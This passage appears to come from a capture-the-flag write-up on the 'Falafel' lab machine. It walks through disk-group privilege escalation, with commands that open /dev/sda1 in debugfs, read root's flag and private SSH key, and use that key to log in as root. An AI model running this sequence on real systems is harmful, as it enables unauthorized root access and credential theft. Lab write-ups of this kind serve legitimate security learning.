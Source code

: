 > **Disk Group Privilege Escalation**: After the partition is selected, now to examine and modify the partition the `debugfs` utility can be used in **Linux**. This utility can also be used to create a directory or read the contents of a directory. Attackers exploit vulnerabilities or misconfigurations linked to **/dev/sda** and similar devices to gain unauthorized access to sensitive data or exploit associated vulnerabilities.

> **Victime Machine**:

```bash
su yossi
whoami
# :)
id
groups
# disk
sudo -l
find / \-name disk 2>/dev/null
find / \-group disk 2>/dev/null

ls -l /dev/sda2
ls -l /dev/sda1

fdisk -l
df -h

debugfs /dev/sda1
cat /root/root.txt
cat /root/.ssh/id_rsa
quit
```

> **Attacker Machine**:

```bash
nvim id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@10.129.229.139
```

> **Victime Machine**:

```bash
whoami
hostname
hostname -I
```

<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_99.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_100.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_101.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/falafel_writeup/Falafel_102.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_103.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

